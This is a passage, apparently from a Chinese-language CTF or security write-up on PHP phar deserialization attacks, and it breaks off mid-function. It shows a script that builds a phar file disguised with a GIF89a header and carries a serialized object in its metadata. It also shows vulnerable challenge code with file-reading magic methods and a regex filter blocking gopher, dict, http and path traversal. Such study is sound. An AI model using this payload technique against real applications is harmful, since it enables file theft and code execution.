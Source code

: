 ```php

    @unlink("phar.phar");
    $phar = new Phar("phar.phar");
    $phar->startBuffering();
    $phar->setStub("GIF89a"."<?php __HALT_COMPILER(); ?>"); //设置stub，增加gif文件头
    $o = new TestObject();
    $phar->setMetadata($o); //将自定义meta-data存入manifest
    $phar->addFromString("test.txt", "test"); //添加要压缩的文件
    //签名自动计算
    $phar->stopBuffering();
?>
```
[phar 扩展php反序列化漏洞攻击](https://paper.seebug.org/680/)
```php
<?php
header("content-type:text/html;charset=utf-8");
include 'function.php';
class c1e4r
{
   public $test;
   public function __construct($name)
   {
       $this->test = $name;
   }
   public function __destruct()
   {
       echo $this->test;
   }
}
class show
{
   public $source;
   public function __construct($file)
   {
       $this->source = $file;
       echo $this->source;
   }
   public function __toString()
   {
       $content = base64_encode(file_get_contents($this->source));
       return $content;
   }
   public function __set($key,$value)
   {
       $this->$key = $value;
   }
   public function _show()
   {
       if(preg_match('/http|https|gopher|dict|\.\.|f1ag/i',$this->source)) {
           die('hacker!');
       } else {
           highlight_file($this->source);
       }

   }
   public function file($file)
   {
       return file_get_contents($file);
   }
   public function __wakeup()
   {
       if(preg_match("/http|https|file|gopher|dict|\.\./i", $this->source)) {
           die("hacker");
```